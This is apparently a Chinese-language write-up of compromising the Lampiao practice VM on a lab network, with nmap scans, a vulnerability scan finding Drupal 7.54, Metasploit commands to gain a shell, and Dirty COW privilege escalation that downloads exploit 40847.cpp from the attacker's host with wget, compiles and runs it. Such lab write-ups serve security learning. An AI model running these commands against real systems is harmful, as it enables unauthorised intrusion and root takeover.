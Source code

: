 ### 0x01 主机扫描，获取IP

```shell
nmap -sn 192.168.12.0/24

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-23 18:47 CST
Nmap scan report for 192.168.12.1
Host is up (0.00013s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.12.2
Host is up (0.00018s latency).
MAC Address: 00:50:56:E9:00:06 (VMware)
Nmap scan report for 192.168.12.129
Host is up (0.00015s latency).
MAC Address: 00:0C:29:D7:B6:FC (VMware)
Nmap scan report for 192.168.12.136
Host is up (0.00024s latency).
MAC Address: 00:0C:29:04:DF:AF (VMware)
Nmap scan report for 192.168.12.254
Host is up (0.00012s latency).
MAC Address: 00:50:56:F6:E6:00 (VMware)
Nmap scan report for 192.168.12.135
Host is up.
Nmap done: 256 IP addresses (6 hosts up) scanned in 2.03 seconds

```

> 可以发现`192.168.12.136`为新主机，也就是Lampiao主机

### 0x02 端口扫描

```shell
nmap -p 1-65535 192.168.12.136

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1898/tcp open  cymtec-port
```

> 开放了80、22、1898端口

### 0x03 访问

1、访问`http://192.168.12.136/`，使用御剑进行后台扫描

> 无结果

2、访问`http://192.168.12.136:1898/`，使用御剑进行后台扫描

> 后面发现没啥用

![image-20230223190119582](https://s2.loli.net/2023/02/27/vcQDxLV5jspSu3i.png)

### 0x04 使用AWVS扫描 

```
信息: 
Current Drupal version: 7.54.

这个版本下的Drupal有以下漏洞:
CVE-2019-6341
CVE-2019-11358
CVE-2019-11831
CVE-2017-6932
CVE-2017-6929
CVE-2017-6928
CVE-2017-6927
CVE-2019-6339
CVE-2018-1000888
CVE-2018-7600
CVE-2018-7602
CVE-2017-6922

```

### 0x05 使用msf获得shell

```shell
search Drupal		# 查找可用模块
```

![image-20230223230703955](https://s2.loli.net/2023/02/27/maS3fjXThQ8xBUs.png)

```shell
use 1		# 选择模块
show options		# 查看参数		
set rhost 192.168.12.136		# 设置远端IP
set rport 1898		# 设置远端端口
run		# 启动模块
```

![image-20230223231129303](https://s2.loli.net/2023/02/27/GtpLlNdb62UxE9B.png)

### 0x06 提权

> 利用AWVS扫出来的漏洞进行提权，找了一大堆，就一个能用的，还是上面getshell用到的，不能提权，略过

脏牛提权

```shell
searchsploit dirty
```

![image-20230223234616017](https://s2.loli.net/2023/02/27/ElhH15ezuDr3jT9.png)

```shell
# 选择linux/local/40847.cpp 文件

# 将文件复制到任意文件夹，进入该文件夹，开启http服务，并指定端口
python -m http.server 8080
```

![image-20230223234932623](https://s2.loli.net/2023/02/27/igobOzK1nDlkx2X.png)

```shell
# 回到msf，进入shell，用wget下载40847.cpp文件
wget http://192.168.12.135:8080/40847.cpp

# 下载成功后编译该文件
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o 40847 40847.cpp -lutil 

# 执行文件
./40847

# 得到密码为dirtyCowFun
```

![image-20230223235324590](https://s2.loli.net/2023/02/27/hZBH1UnF6crakgA.png)

![image-20230223235352264](https://s2.loli.net/2023/02/27/9QZPVLFekD2CAql.png)

![image-20230223235416505](https://s2.loli.net/2023/02/27/ZVB6ozgRXxApvPb.png)

![image-20230223235607514](https://s2.loli.net/2023/02/27/Qm7AdxqUkNrbvpB.png)

> 成功连接

![image-20230223235658638](https://s2.loli.net/2023/02/27/d7IxV1NgR3C6loZ.png)